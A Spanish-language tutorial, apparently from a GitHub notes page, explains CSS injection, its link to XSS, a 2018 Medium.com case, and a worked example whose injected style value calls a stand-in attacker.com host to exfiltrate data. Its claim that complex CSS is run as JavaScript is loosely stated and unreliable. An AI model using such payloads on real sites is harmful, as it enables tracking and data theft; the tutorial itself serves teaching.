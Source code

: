 # Inyecciones CSS (CSSI)

Las Inyecciones CSS (CSSI) son un tipo de vulnerabilidad web que permite a un atacante inyectar código CSS malicioso en una página web. Esto ocurre cuando una aplicación web confía en entradas no confiables del usuario y las utiliza directamente en su código CSS, sin realizar una validación adecuada.

El código CSS malicioso inyectado puede alterar el estilo y diseño de la página, permitiendo a los atacantes realizar acciones como la suplantación de identidad o el robo de información confidencial.

Las Inyecciones CSS (CSSI) pueden ser utilizadas por los atacantes como un vector de ataque para explotar vulnerabilidades de Cross-Site Scripting (XSS). Imaginemos que una aplicación web permite a los usuarios introducir texto en un campo de entrada que se muestra en una página web. Si el desarrollador de la aplicación no valida y filtra adecuadamente el texto introducido por el usuario, un atacante podría inyectar código malicioso en el campo de entrada, incluyendo código CSS e incluso JavaScript.

Si el código CSS inyectado es lo suficientemente complejo, puede hacer que el navegador web interprete el código como si fuera JavaScript. Esto se conoce como una inyección de JavaScript inducida por CSS (CSS-Induced JavaScript Injection).

Una vez que el código JavaScript ha sido inyectado en la página, este puede ser utilizado por el atacante para realizar un ataque de Cross-Site Scripting (XSS). A partir de este punto, el atacante podría inyectar un script malicioso que robe las credenciales del usuario o redirija a la víctima a una página web falsa, entre otros vectores.

## Ejemplo práctico

Supongamos que estamos ante una aplicación web que permite personalizar el color del nombre de usuario en el perfil, y este valor es reflejado directamente en el HTML sin sanitización:

```html
<div style="color: [COLOR]">metahumo</div>
```

Si introducimos un valor como:

```
blue; background:url('http://attacker.com/steal')
```

El navegador interpretará:

```html
<div style="color: blue; background:url('http://attacker.com/steal')">metahumo</div>
```

Esto provocará una solicitud al dominio del atacante, permitiéndole rastrear actividad o exfiltrar información sensible.

## Caso real

En 2018 se descubrió una vulnerabilidad en el servicio de blogs Medium.com. El fallo consistía en que Medium permitía incrustar estilos CSS personalizados sin suficiente filtrado. Esto permitió a los atacantes inyectar código CSS para modificar completamente la apariencia de artículos y páginas de usuario. Aprovechando pseudoelementos CSS como `::before` y `content`, y combinaciones con `attr()`, los atacantes podían realizar ataques de phishing visual, mostrando formularios falsos en el sitio legítimo.

Este tipo de ataque evidencia cómo una simple vulnerabilidad de inyección CSS puede convertirse en un riesgo crítico si no se aplican medidas adecuadas de validación y sanitización del input del usuario.